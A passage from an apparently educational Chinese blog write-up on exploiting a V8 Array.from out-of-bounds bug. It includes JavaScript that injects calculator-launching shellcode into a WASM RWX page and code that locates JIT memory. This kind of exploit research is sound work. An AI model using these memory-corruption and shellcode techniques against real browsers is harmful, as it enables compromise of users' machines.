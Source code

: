 [![](./img/199702/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/ldz5he.png)

获取RWX地址，直接将shellcode写进去就行了。之后只需要调用这个WASM函数就可以执行我们的shellcode。

```
let sc=[0x6a,0x3b,0x58,0x99,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x00,0x53,0x48,0x89,0xe7,0x68,0x2d,0x63,0x00,0x00,0x48,0x89,0xe6,0x52,0xe8,0x1c,0x00,0x00,0x00,0x44,0x49,0x53,0x50,0x4c,0x41,0x59,0x3d,0x3a,0x30,0x20,0x67,0x6e,0x6f,0x6d,0x65,0x2d,0x63,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72,0x00,0x56,0x57,0x48,0x89,0xe6,0x0f,0x05];
for(let i=0;i&lt;sc.length;i++){
    wr.write(instanceAddr+i,sc[i]);
}
f();
```

#### <a class="reference-link" name="JIT"></a>JIT

在较早期版本的v8引擎中，经常使用向JIT写入shellcode的方式。不过在6.7版本之后，JIT的区域会被标记为不可写。可以考虑JIT Spray/JIT ROP之类的绕过。这里我们就实验如何找到JIT的这块内存为止。

与写入WASM一样要通过数据的结构来寻找JIT的内存，索引关系如下

****JSFunction-&gt;kCodeEntry Offset****

```
//让function变hot
function f()
{
    for(let i=0;i&lt;0x1000000;i++)
    {
        let a='migraine';    
    }
}
//通过jsfunction结构找到JIT的地址
let jsfunc_addr=wr.leak_obj(f);
let jit_addr=wr.read(jsfunc_addr+6*8)-1;
console.log("jsfunction address = "+hex(jsfunc_addr));
console.log("jit address = "+hex(jit_addr));
```

[![](./img/199702/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/WLtsdH.png)

[![](./img/199702/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/eju1Un.png)

### <a class="reference-link" name="%E5%B0%8F%E7%BB%93"></a>小结

这个漏洞来自v8对JS函数array.from的实现，开发者没有考虑到在array.from中也可以输入数组，所以造成了一个数组越界漏洞。一般来说数组越界的漏洞都比较好利用，不过写利用的时候遇到不少坑（可能因为我太菜了。

单说利用，有这几点需要思考。
- 1.需要考虑的是gc的回收的问题，何时回收，会对我们的内存结构有什么影响
- 2.为什么大量进行读取之后，原本控制的ArrayBuffer位置跑飞了，如何避免
- 3.除了对stack进行retn覆盖，有什么办法来触发ROP（思考一下stack povit可以吗）
[欢迎讨论](https://migraine-sudo.github.io)
